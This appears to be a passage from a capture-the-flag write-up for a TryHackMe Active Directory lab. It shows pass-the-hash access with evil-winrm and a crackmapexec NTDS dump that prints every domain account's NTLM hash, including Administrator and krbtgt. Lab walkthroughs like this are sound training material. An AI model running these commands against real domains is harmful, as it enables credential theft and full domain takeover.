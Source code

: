 > gem install evil-winrm

```
❯ evil-winrm -i spookysec.local -u "a-spooks" -H "0e0363213e37b94221497260b0bcb4fc"

Evil-WinRM shell v3.2

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\a-spooks\Documents> whoami
thm-ad\a-spooks
*Evil-WinRM* PS C:\Users\a-spooks\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::9848:5521:ee29:34c%6
   IPv4 Address. . . . . . . . . . . : 10.10.28.119
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1
```

### crackmapexec ntds

❯ crackmapexec smb spookysec.local -u "a-spooks" -H "0e0363213e37b94221497260b0bcb4fc" --ntds vss
SMB         10.10.28.119   445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.28.119   445    ATTACKTIVEDIREC  [+] spookysec.local\a-spooks 0e0363213e37b94221497260b0bcb4fc (Pwn3d!)
SMB         10.10.28.119   445    ATTACKTIVEDIREC  [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.28.119   445    ATTACKTIVEDIREC  Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
SMB         10.10.28.119   445    ATTACKTIVEDIREC  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.28.119   445    ATTACKTIVEDIREC  ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:88dbcf1ea5935c4939535b559a31c6bb:::
SMB         10.10.28.119   445    ATTACKTIVEDIREC  krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::